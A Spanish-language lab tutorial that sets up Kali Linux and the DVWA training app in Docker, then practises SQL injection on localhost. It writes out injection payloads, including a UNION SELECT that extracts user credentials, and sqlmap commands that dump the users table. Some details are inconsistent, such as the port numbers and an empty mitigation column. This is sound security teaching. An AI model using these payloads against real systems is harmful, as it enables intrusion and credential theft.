







# SQL Injection usando Kali Linux + docker DVWA + SqlMap
#### By Patricia Sagbay

Hoy en día existen muchísimos sitios que ofrecen cursos y capacitaciones de todo tipo. Para alguien que recién comienza en el mundo de la ciberseguridad, tanta información puede resultar abrumadora. Por eso nace este espacio como un aporte a la comunidad de habla hispana, con el objetivo de orientar, compartir conocimientos y facilitar el aprendizaje paso a paso.

## Requerimientos
Descargar la ISO de Kali Linux X86_64 que pesa 4.1GB: 
```bash
https://www.kali.org/get-kali/ 
```
Esta ISO usa el hash SHA256 para validar la integridad de tu descarga, mi hash de descarga es 5723d46414b45575aa8e199740bbfde49e5b2501715ea999f0573e94d61e39d3 

## Instalacion de Kali y docker DVWA
En el siguiente link podemos ver la instalación de Kali Linux en computadoras de escritorio y portátiles mediante archivos ".ISO" (x64/x86)
```bash
https://www-kali-org.translate.goog/docs/installation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc
```
Una vez instalado la ISO del Kali Linux, desde la terminal usamos los siguientes comandos para actualizar la lista de paqueres disponibles e instalar las versiones mas recientes de los paquetes:
```bash
sudo apt update

sudo apt upgrade
```
Como siguiente paso, vamos a instalar Docker desde la terminal de Kali Linux:
```bash
sudo apt install docker.io -y

sudo systemctl start docker

sudo systemctl enable docker
```
Ahora vamos a instalar el docker compose (Opcional pero recomendado) si vas a definir y ejecutar aplicaciones dockers con multiples contenedores.
```bash
sudo apt install docker-compose -y
```
Descarga la Imagen DVWA desde docker hub

```bash
sudo docker pull vulnerables/web-dvwa
```

Ejecuta DVWA en tu contenedor:
```bash
sudo docker run -d -p 80:80 vulnerables/web-dvwa
```
-d: ejecuta el contenedor en segundo plano.

-p 80:80: expone el puerto 80 del contenedor al puerto 80 de tu máquina.

Accede al DVWA desde tu navegador:

```bash
http://localhost
```
Credenciales por defecto
```bash
#Usuario: 
admin

#Contraseña: 
password
```

*Imagen 1*


*Imagen 2*


Una vez dentro, ve a la pestaña "Setup / Reset DB" para inicializar la base de datos.

## Configuración de DVWA

Acceda al elemento de menú “Seguridad DVWA” desde la barra lateral izquierda, cerca de la parte inferior. 

DVWA ofrece cuatro opciones para configurar el nivel de dificultad de sus pruebas de penetración: Bajo , Medio , Alto y una opción adicional llamada Imposible . Estas cuatro opciones determinan la vulnerabilidad de DVWA a sus ataques.

### Bajo: 

Esta es la configuración predeterminada para la instalación de Docker. Este nivel de seguridad es completamente vulnerable y no cuenta con ninguna medida de seguridad. Sirve como ejemplo de cómo las vulnerabilidades de las aplicaciones web se manifiestan a través de malas prácticas de programación y sirve como plataforma para enseñar o aprender técnicas básicas de explotación.

### Medio: 

Esta configuración demuestra principalmente malas prácticas de seguridad al mostrar cómo el desarrollador intentó, sin éxito, proteger una aplicación. También insta a los usuarios a perfeccionar sus técnicas de explotación.

### Alto: 

Esta opción es una extensión del nivel Medio, y los desarrolladores han implementado una combinación de malas prácticas más difíciles o alternativas para proteger el código. Las vulnerabilidades en este nivel limitan su explotación, similar a cómo se gestionan las competiciones de Capturar la Bandera (CTF).

### Imposible: 

Esta es la configuración predeterminada para la instalación de Kali Linux. Debe comparar el código fuente vulnerable con el código fuente relativamente seguro de los desarrolladores.

## Vamos a practicar con DVWA

```bash
http://localhost:8080/login.php
```
Usaremos nivel bajo (slow) y usaremos las siguientes consultas sql que permitan identificar las vulnerabilidades del sitio usando payloads:

#### Payload 1:

```bash

'
```

*Imagen 3*



Es lo mismo que hacer una consulta sql:
```bash
SELECT * FROM usuarios WHERE nombre = 'juan';
```

#### Payload 2:
```bash
1' or 1=1#
```
*Imagen 4*



Es lo mismo que hacer una consulta sql:
```bash

SELECT * FROM users WHERE username = '$usuario' AND password = '$clave';

```
#### Payload 3:
```bash
1' ORDER BY 1 -- -

```
*Imagen 5*



Es lo mismo que hacer una consulta sql:
```bash

SELECT * FROM users WHERE id = '1' ORDER BY 1 -- -';

```
#### Payload 4:
```bash
' UNION SELECT user, password FROM users#

```
*Imagen 6*



Es lo mismo que hacer una consulta sql:
```bash

SELECT id, name FROM products WHERE id = '' UNION SELECT user, password FROM users#';

```
*Imagen 7*



La siguiente tabla proporciona una descripción más detallada de dicha vulnerabilidad.:

<table>
  <tr>
   <td>Payload
   </td>
   <td>Consulta SQL (Win / Linux)
   </td>
   <td>Descripcion
   </td>
    <td> Cómo evitar
   </td>
  </tr>
  <tr>
   <td> '
   </td>
   <td>SELECT * FROM users WHERE username = 'juan';
   </td>
   <td> La comilla simple ' es un carácter de cierre de cadenas de texto en SQL. 
     En el contexto de una inyección SQL, se usa para salir de una cadena de texto dentro de una consulta y así poder insertar código malicioso. 
   </td>
  </tr>
  <tr>
   <td>1' or 1=1#
        </td>
   <td> SELECT * FROM users WHERE id = '$input';
<p>
<td>1’:Cierra la comilla de la consulta SQL original.
  
OR 1=1:Condición siempre verdadera, para forzar a devolver todas las filas.
  
#:Comentario en SQL (MySQL/MariaDB). Ignora el resto de la consulta.
   </td>
   <td> 
   </td>
  </tr>
  <tr>
   <td>1' ORDER BY 1 -- -
   </td>
   <td>SELECT * FROM users WHERE id = '1' ORDER BY 1 -- -';
   </td>
   <td>1'	Cierra la cadena esperada en la consulta.

ORDER BY 1	Intenta ordenar los resultados por la primera columna.

-- -	Comenta el resto de la consulta, evitando errores de sintaxis. 
   </td>
  </tr>
  <tr>
   <td>' UNION SELECT user, password FROM users# 
   </td>
   <td>SELECT id, name FROM products WHERE id = '' UNION SELECT user, password FROM users#';
   </td>
   <td>'	Cierra el valor original del campo.
     
UNION SELECT	Combina el resultado de dos consultas SELECT.

user, password	Columnas que queremos extraer de la tabla users.

FROM users	Tabla objetivo que contiene las credenciales.

#Comentario en SQL (MySQL), ignora el resto de la consulta.
   </td>
  </tr>
</table>

### Como obtener las cookies del sitio web 

#### Paso 1: 

Abre DVWA en tu navegador e inicia sesión.

#### Paso 2: 

Haz clic derecho en cualquier parte de la página y selecciona "Inspeccionar" (o presiona F12).

#### Paso 3: 

Ve a la pestaña "Application" (en Firefox es "Almacenamiento" o "Storage").

#### Paso 4: 

En el menú izquierdo, selecciona Cookies → y haz clic sobre localhost o la IP de DVWA.

Busca la cookie llamada algo como:

* PHPSESSID (muy común en DVWA)
    
* security (en algunos casos indica el nivel: low, medium, high)

*Imagen 8*



## Usando SQLmap

SQLMap es una herramienta de código abierto y uso automatizado para detectar y explotar vulnerabilidades de inyección SQL (SQL Injection) en aplicaciones web.
*Imagen 9*



#### Enumerar la BD:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=dqpmagfo58rgidbrdjp0vcu763" --dbs
```
#### Ver bases de datos disponibles:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=dqpmagfo58rgidbrdjp0vcu763" --dbs --batch
```
#### Ver las tablas de las bases de datos:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=dqpmagfo58rgidbrdjp0vcu763" -D dvwa --tables --batch
```

#### Explotamos la vulnerabilidad:

Sqlmap explotará la vulnerabilidad SQL en el parámetro id, usará la sesión activa para acceder a la base de datos dvwa, y extraerá todas las filas y columnas de la tabla users, mostrando la información (como nombres de usuarios y contraseñas).

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=dqpmagfo58rgidbrdjp0vcu763" -D dvwa -T users --dump
```


Puedes ver el video del ejemplo en el siguiente link:

(estamos trabajando en aquello)
